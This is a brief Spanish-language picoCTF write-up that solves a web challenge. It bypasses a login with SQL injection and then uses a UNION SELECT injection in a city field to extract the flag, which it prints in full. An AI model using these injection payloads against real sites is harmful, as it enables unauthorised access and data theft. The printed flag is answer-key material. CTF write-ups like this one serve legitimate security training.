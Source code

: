 ## Objetivo
Can you find the flag on this website.
## Solución
- ##### Ingresando.
```
username: admin
password: ' OR 1=1;

LUEGO, CUANDO HAYAMOS INICIADO SESION:

City: Algiers' union select flag,id,1 from more_table;--
```

- ##### Luego de buscar la ciudad con una inyección SQL, obtenemos la bandera.
```
Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)